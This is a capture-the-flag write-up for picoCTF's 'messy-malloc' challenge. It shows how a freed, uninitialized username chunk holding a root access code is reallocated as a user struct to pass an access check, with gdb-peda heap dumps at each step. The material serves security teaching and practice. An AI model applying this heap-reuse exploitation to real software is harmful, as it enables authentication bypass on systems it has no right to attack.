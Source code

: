 # messy-malloc 300 points (pwn, pico, heap, unclear-memory)

Notes:
- source code given: yes
- binary given: yes

### Enumeration
This was my first heap-exploitation challenge. I've spend some time reading through tutorials before I've approached it.

The program itself allows user to perform some basic actions:

![](img/actions.png)

We can see that to obtain the flag we have to login as a user with a correct access code.

```c
void print_flag() { // simplified
  [...] // read flag

  unsigned long ac1 = ((unsigned long *)u->access_code)[0];
  unsigned long ac2 = ((unsigned long *)u->access_code)[1];
  if (ac1 != 0x4343415f544f4f52 || ac2 != 0x45444f435f535345) {
    fprintf(stdout, "Incorrect Access Code: \"");
    return;
  }
  
  puts(flag);
}
```

The user structure is quite simple:

```c
struct user {
  char *username;
  char access_code[ACCESS_CODE_LEN];
  char *files;
};
```

So my first idea was to look for every place where the `access_code` is set.
But here comes the surprice! There is no such place in code! Moreover I couldn't spot any vulnerabilities like buffer overflow etc. Challenge name clearly gives us a hint to look for malloc connected vulnerability. And I've found it. When we call malloc, the memory is not initialized:

![](img/manmalloc.png)

This means that when we call malloc, the returned memory is not nulled. It can contain data from previous usage. Amazing! Now we need to find a way to fill part of memory with correct access code and later on find a way to allocate a `struct user` on this part of memory.

When we look at the commands we can invoke, we see that:

```c
int login() { // simplified
  u = malloc(sizeof(struct user));

  int username_len;
  puts("Please enter the length of your username");
  scanf("%d", &username_len);

  char *username = malloc(username_len+1);
  u->username = username;

  puts("Please enter your username");
  fgets(username, username_len, stdin);
  [...]
}
```

`login` function allocates space for `struct user` and for `username`.

```c
int logout() {
  char *user = u->username;
  if (u == &anon_user) {
    return -1;
  }
  else {
    free(u);
    free(user);
    u = &anon_user;
  }
  return 0;
}
```

while `logout` frees the above allocated memory.

### Exploit
As an attacker we don't control the fields of `struct user`, but we do control the `username`. So the attack is quite simple. Let's first allocate memory for `username` containing the correct access code, then free that memory and finaly allocate a new `struct user` in the same place.

As ` struct user` is 32 byte size the malloc uses `fastbins 32byte` for it, so we need to make our `username` same size.

Let's see our exploit under `gdb`. 

```bash
gdb -q auth
```

We will start with setting breakpoint at `fgets` command which asks for command.

```gdb
gdb-peda$ pd main
[...]
  0x0000000000400d38 <+209>:	mov    esi,0x100
  0x0000000000400d3d <+214>:	call   0x400860 <fgets@plt>
  0x0000000000400d42 <+219>:	test   rax,rax
[...]
End of assembler dump.
gdb-peda$ b *0x0000000000400d3d
Breakpoint 2 at 0x400d3d: file /usr/include/x86_64-linux-gnu/bits/stdio2.h, line 262.
gdb-peda$ c
Continuing.
Commands:
	login - login as a user
	print-flag - print the flag
	logout - log out
	quit - exit the program

Enter your command:
[anon]>
```

Now let's allocate and fill with our access_code the memory using `login` function.
As username length we pass 31 as login function allocates one more byte for null byte. When asked for username we prefix our access_code with 8 bytes of junk. This is because this 8 bytes will be a pointer to username.
```gdb
gdb-peda$ c
Continuing.
login
Please enter the length of your username
31
Please enter your username
AAAAAAAAROOT_ACCESS_CODE
```

Now let's take a look at a heap memory layout.

```gdb
gdb-peda$ vmmap 
[...]
0x00603000         0x00624000         rw-p	[heap]
[...]
gdb-peda$ x/256gx 0x00603000
[...]
0x603660:	0x0000000000000000	0x0000000000000031
0x603670:	0x00000000006036a0	0x0000000000000000
0x603680:	0x0000000000000000	0x0000000000000000
0x603690:	0x0000000000000000	0x0000000000000031
0x6036a0:	0x4141414141414141	0x4343415f544f4f52
0x6036b0:	0x45444f435f535345	0x0000000000000000
0x6036c0:	0x0000000000000000	0x0000000000020941
0x6036d0:	0x0000000000000000	0x0000000000000000
[...]

We can see that [0x603660 - 0x60368f] chunk contains the `user struct`. Block 0x00000000006036a0 is a `char *username` field of a struct pointing to [0x6036a0-0x6036bf] username chunk.

Now let's free that memory so we can later allocate new user in place of username.

```gdb
gdb-peda$ c
logout
gdb-peda$ x/256gx 0x00603000
[...]
0x603660:	0x0000000000000000	0x0000000000000031
0x603670:	0x0000000000000000	0x0000000000000000
0x603680:	0x0000000000000000	0x0000000000000000
0x603690:	0x0000000000000000	0x0000000000000031
0x6036a0:	0x0000000000603670	0x4343415f544f4f52
0x6036b0:	0x45444f435f535345	0x0000000000000000
0x6036c0:	0x0000000000000000	0x0000000000020941
[...]
```

Note that not much has changed. The memory hasn't been nulled as we expected even though it is now marked as free. We can tell this by observing that
[0x603670-0x603678] now instead of pointer to username contains 0x0000000000000000. This is because when fastbin chunk is unallocated it has `struct malloc_chunk* fd;` poiting to next free chunk. As [0x603660-0x60367f] is a head of a free fastbin 32byte chunk list, the `fd` points to NULL.
The [0x6036a0-0x6036a8] points to 0x0000000000603670 and is a tail of fastbin 32byte chunk list.

Now let's login as a new user and examine the heap.

```gdb
gdb-peda$ c
Continuing.
login
Please enter the length of your username
31
Please enter your username
BBBBBBBBBBBBBBBBBBBBBBBB
gdb-peda$ x/256gx 0x00603000
[...]
0x603660:	0x0000000000000000	0x0000000000000031
0x603670:	0x4242424242424242	0x4242424242424242
0x603680:	0x4242424242424242	0x0000000000000000
0x603690:	0x0000000000000000	0x0000000000000031
0x6036a0:	0x0000000000603670	0x4343415f544f4f52
0x6036b0:	0x45444f435f535345	0x0000000000000000
0x6036c0:	0x0000000000000000	0x0000000000020941
[...]
```

Can you see how the new `struct user` has been allocated in place of previous `username`?
If not, then use this useful trick (the program has to be compiled with -g flag):

```gdb
gdb-peda$ set $u=(struct user*) 0x6036a0
gdb-peda$ p *$u
$3 = {
  username = 0x603670 'B' <repeats 24 times>, 
  access_code = "ROOT_ACCESS_CODE", 
  files = 0x0
}
```

Now all we have to do is to call a print-flag function:

```gdb
gdb-peda$ c
Continuing.
picoCTF{XXXXXXXXXXXXXXXXX}
```

